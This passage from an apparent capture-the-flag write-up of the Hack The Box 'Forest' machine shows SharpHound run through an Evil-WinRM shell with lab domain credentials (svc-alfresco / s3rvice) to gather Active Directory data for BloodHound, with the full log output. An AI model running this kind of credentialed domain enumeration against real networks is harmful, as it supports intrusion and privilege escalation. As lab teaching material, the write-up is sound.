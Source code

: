 Running ```PowerUp.ps1``` became useless causing some privilege and WMI errors

## Running SharpHound

Lets try to gather information using ```SharpHound``` and load the output from ingestors into ```BloodHound``` to analyse the shortest path

Copying it on our target machine and running the ingestors,

```c
*Evil-WinRM* PS C:\Users\svc-alfresco> .\SharpHound.exe --collectionmethods All --domain htb.local --ldapUsername svc-alfresco --ldappassword s3rvice
2022-03-27T05:16:37.0031421-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-03-27T05:16:37.0656410-07:00|INFORMATION|Initializing SharpHound at 5:16 AM on 3/27/2022
2022-03-27T05:16:38.8781460-07:00|INFORMATION|Loaded cache with stats: 120 ID to type mappings.
 120 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2022-03-27T05:16:38.8781460-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-03-27T05:16:40.0500234-07:00|INFORMATION|Beginning LDAP search for htb.local
2022-03-27T05:16:40.3000250-07:00|INFORMATION|Producer has finished, closing LDAP channel
2022-03-27T05:16:40.3000250-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2022-03-27T05:17:10.7534462-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 42 MB RAM
2022-03-27T05:17:24.6751174-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2022-03-27T05:17:24.7064451-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2022-03-27T05:17:24.8939084-07:00|INFORMATION|Status: 161 objects finished (+161 3.659091)/s -- Using 46 MB RAM
2022-03-27T05:17:24.8939084-07:00|INFORMATION|Enumeration finished in 00:00:44.8591855
2022-03-27T05:17:25.0033515-07:00|INFORMATION|SharpHound Enumeration Completed at 5:17 AM on 3/27/2022! Happy Graphing!
*Evil-WinRM* PS C:\Users\svc-alfresco> ls


    Directory: C:\Users\svc-alfresco


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        9/23/2019   2:16 PM                Desktop
d-r---        9/22/2019   4:02 PM                Documents
d-r---        7/16/2016   6:18 AM                Downloads
d-r---        7/16/2016   6:18 AM                Favorites
d-r---        7/16/2016   6:18 AM                Links
d-r---        7/16/2016   6:18 AM                Music
d-r---        7/16/2016   6:18 AM                Pictures
d-----        7/16/2016   6:18 AM                Saved Games
d-r---        7/16/2016   6:18 AM                Videos
-a----        3/27/2022   5:17 AM          17775 20220327051724_BloodHound.zip
-a----        3/27/2022   5:17 AM          19811 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----        3/27/2022   1:18 AM         563259 PowerUp.ps1
-a----        3/27/2022   3:51 AM         906752 SharpHound.exe
```
